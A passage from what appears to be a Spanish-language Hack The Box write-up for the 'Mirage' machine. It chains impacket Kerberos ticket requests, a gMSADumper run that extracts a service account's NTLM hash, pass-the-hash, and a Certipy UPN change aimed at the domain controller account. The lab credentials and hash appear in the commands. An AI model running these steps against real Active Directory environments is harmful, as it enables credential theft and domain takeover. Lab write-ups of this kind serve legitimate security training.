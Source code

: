 por ultimo consultamos los cambios

```powershell
Get-ADUser -Identity javier.mmarshall -Properties LogonHours | Select-Object -ExpandProperty LogonHours
```
<img width="1920" height="686" alt="image" src="https://github.com/user-attachments/assets/1c4fbf5e-b389-4521-a752-5feebe8a50ff" />

ahora podemos solicitar el ticket kerberos

```bash
impacket-getTGT mirage.htb/javier.mmarshall:'P4ssw0rd!'
```

```bash
export KRB5CCNAME=javier.mmarshall.ccache
```

continuando con las instrucciones de Bloodhound, vamos a extraer el hash `NTLM` del usuario `MIRAGE-SERVICE$`. Primero nos descargamos el script python

```bash
wget https://raw.githubusercontent.com/micahvandeusen/gMSADumper/refs/heads/main/gMSADumper.py
```
ejecutamos el script 

```bash
python3 gMSADumper.py -d mirage.htb -k
```

<img width="1920" height="224" alt="image" src="https://github.com/user-attachments/assets/88b1cfbe-2df5-4be0-ae12-8be6878907fc" />


obtenemos el hash `NTML` asi que podemos solicitar el ticket kerberos para esta cuenta

```bash
impacket-getTGT mirage.htb/'Mirage-Service$' -hashes :305806d84f7c1be93a07aaf40f0c7866
```

<img width="1920" height="169" alt="image" src="https://github.com/user-attachments/assets/504ff88c-5b0e-41d8-8e59-fe26d735bbac" />

```bash
export KRB5CCNAME=Mirage-Service\$.ccache
```

ahora usaremos de Certipy para modificar el UPN del usuario `mark.bbond`

```bash
certipy-ad account update -user 'mark.bbond' -upn 'dc01$@mirage.htb' -u 'mirage-service$@mirage.htb' -k -no-pass -dc-ip 10.10.11.78 -target dc01.mirage.htb
```

<img width="1920" height="169" alt="image" src="https://github.com/user-attachments/assets/cc8735e0-279e-4363-bc90-9ec895b5f624" />

solicitamos un nuevo ticket kerberos y lo cargamos en cache

```bash
impacket-getTGT mirage.htb/mark.bbond:'1day@atime'
```

```bash
export KRB5CCNAME=mark.bbond.ccache
```
